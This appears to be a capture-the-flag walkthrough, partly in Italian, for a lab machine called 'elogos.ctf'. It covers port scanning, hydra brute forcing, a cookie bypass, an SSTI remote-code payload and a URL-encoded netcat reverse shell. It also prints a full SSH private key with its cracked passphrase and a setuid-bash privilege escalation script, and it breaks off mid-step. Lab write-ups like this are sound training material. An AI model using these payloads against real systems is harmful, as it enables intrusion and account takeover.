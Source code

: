 ### **PORT SCANNING**
```bash
nmap -sT -T5 --min-rate=10000 -p- 192.168.86.129
```
![[Pasted image 20231011153211.png]]

### **PATH 1 - FTP**
Go to http://elogos.ctf/about-us and take note of the listed username (email)
![[Pasted image 20231011153524.png]]

After that launch a brute force with hydra on ftp to gain access
```
hydra -L user.txt -P /usr/share/wordlists/rockyou.txt ftp://elogos.ctf
```

ls -la and take the private ssh key. Crack it.
```
ssh2john id_rsa > hash
```
![[Pasted image 20231011153933.png]]![[Pasted image 20231011154601.png]]

Log in as j.brock via ssh
### **PATH 2 - WEB**
*Cookie Bypass*
http://elogos.ctf/login
Use inspect to retrieve the cookie and decode it.
![[Pasted image 20231011154838.png]]
Change logged in to true and save it in the browser
*HardCoded Credentials*

*Web to www-Data*
![[Pasted image 20231011154905.png]]
Use the "user=" parameter to inject the ssti payload and achieve a RCE
```python
{{request.application.__globals__.__builtins__.__import__('os').popen("id").read()}}
```
Usa la reverse shell url encodata
```bash
rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fbash%20-i%202%3E%261%7Cnc%20192.168.86.130%204444%20%3E%2Ftmp%2Ff
```
![[Pasted image 20231011155050.png]]
Now use the rce to obtain a reverse shell
![[Pasted image 20231012163853.png]]
*www-Data to John*
intera home j.brock leggibile da gruppo web-developer di cui www-Data fa parte
![[Pasted image 20231012164214.png]]
catta id_rsa
``` bash
cat /home/j.brock/.ssh/id_rsa
```

```id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
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
qMfG6JM2YKLsLYHqT9T+dgZJqGc=
-----END OPENSSH PRIVATE KEY-----
```
e craccalo usando ssh2john
```
ssh2john id_rsa > hash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```
==Password = spaghetti==

Entra su ssh come j.brock
==ricorda chmod 400 su id_rsa==
### **j.brock to m.hack**
Scarica linpeas ed avvialo
```bash
wget https://github.com/carlospolop/PEASS-ng/releases/download/20231011-b4d494e5/linpeas.sh
vai in /scripts e crea un file random.py
```
Vai in /scripts e crea un file random.py
```python
import os
os.system('cp /bin/bash /scripts/; chmod +s /scripts/bash')
```
![[Pasted image 20231012164950.png]]
Aspetta 